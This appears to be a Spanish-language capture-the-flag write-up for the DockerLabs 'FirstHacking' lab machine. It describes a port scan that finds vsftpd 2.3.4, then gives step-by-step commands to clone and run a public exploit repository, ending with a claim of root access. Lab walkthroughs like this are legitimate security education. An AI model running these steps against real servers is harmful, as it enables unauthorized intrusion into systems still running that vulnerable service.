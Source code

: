 # Writeup-Maquina-FirstHacking
# [FirstHacking](https://dockerlabs.es/) | DOCKERLABS
<p>Haremos un PING para verificar la conexion</p>

<h2><b></b>Escaneo de Puertos</b></h2>
<img src="https://github.com/user-attachments/assets/3aebe9eb-2386-42ea-b777-5f915d359538">
<p>Veremos que unicamente tenemos el puerto 21 abierto</p>

<h2><b>Busqueda de Vulnerabilidad</b></h2>
<p>Como vimos al lanzar el escaneo de puertos tenemos la version del servicio en este caso es:</p>
<p>vsftpd 2.3.4</p>
<br>
<p>Por lo que buscaremos alguna vulnerabilidad para esta version</p>
<br>
<p>Buscando nos encontramos con este <a href="https://github.com/Hellsender01/vsftpd_2.3.4_Exploit">Exploit</a></p>

<h2><b>Utilizacion del Exploit</b></h2>
<p>Leeremos el exploit y haremos exactamente lo que nos dice</p>
<br>
<p>1. Instalamos la herramienta que nos pide: sudo python3 -m pip install pwntools</p>
<br>
<p>2. Clonamos el repositorio: git clone https://github.com/Hellsender01/vsftpd_2.3.4_Exploit.git</p>
<br>
<p>3. Abriremos la carpeta que contiene el exploit: cd vsftpd_2.3.4_Exploit/</p>
<br>
<p>4. Modificamos su configuracion con el comando: chmod +x exploit.py</p>
<br>
<p>5. Lo ejecutamos: python3 exploit.py Target_IP</p>

<h2><b>Resultado</b></h2>
<p>Ya tenemos acceso a la maquina victima y somos usuario ROOT</p>
<img src="https://github.com/user-attachments/assets/d56c02f9-547c-47a0-9928-9e2d2285a1c5">